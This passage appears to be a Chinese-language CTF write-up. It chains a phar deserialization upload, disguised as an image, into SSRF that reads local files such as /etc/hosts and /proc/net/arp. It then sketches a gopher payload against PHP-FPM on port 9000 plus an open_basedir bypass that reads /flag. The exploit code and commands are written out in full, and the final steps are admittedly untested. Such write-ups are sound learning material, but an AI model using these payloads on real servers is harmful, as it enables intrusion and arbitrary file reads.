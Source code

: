 这个ssrf肯定就是另一个文件夹里的东西了，正好开着fpm，那就是ssrf打9000端口的fpm了，php.ini中还限制了open_basedir，后面还得饶一下（这是啥套娃题啊，真的套

害，还得做。先是构造第一个phar，将url设为`file:///etc/hosts`看内网地址

```php
<?php
class Easytest{
    protected $test = '1';
}
class Main {
    public $url = 'file:///etc/hosts';
}

$c = new Easytest();	// 注意phar中的是Main 之后再反序列化的是Easytest
echo urlencode(serialize($c));
// O%3A8%3A%22Easytest%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00test%22%3Bs%3A1%3A%221%22%3B%7D

$a = new Main();

$phar = new Phar("exp.phar");
$phar -> startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER(); ?>');
$phar -> setMetadata($a);
$phar -> addFromString('test.txt','test');
$phar -> stopBuffering();
```

改后缀和MIME上传，拿到路径./uploads/dce6e76f20.jpg，然后到`/catchmime.php?careful=`处触发，careful参数传入

![image-20220119014623242](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220119014623242.png)

这看了个寂寞，寄，直接看/proc/net/arp吧

![image-20220119015548163](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220119015548163.png)

尴尬就尴尬在这俩都不是我们直接的ip，想找的靶机就在这个网段里，但是我都加减5位了，都没找到我们的目标靶机…………………………加减5位已经很多了……

寄。后面的流程我简单说一下吧，懒得本地搭环境，就云了，就是摆。

首先用p牛那个fpm的脚本构造gopher的payload

```
python fpm.py ip '/var/www/html/index.php' -p 9000 -c "<?php phpinfo();?>"
```

将生成的payload前面加上`gopher://ip:9000/_`，放入前面构造phar脚本的url参数中，上传并触发，回显正常

因为还有disable_functions和open_basedir的存在，所以再绕一下

```php
<?php mkdir('/tmp/fuck');chdir('/tmp/fuck');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('/'));readfile('/flag');?>
// 这里的部分作为fpm.py的参数生成新的gopher payload
```

再传phar，再触发就能看flag了
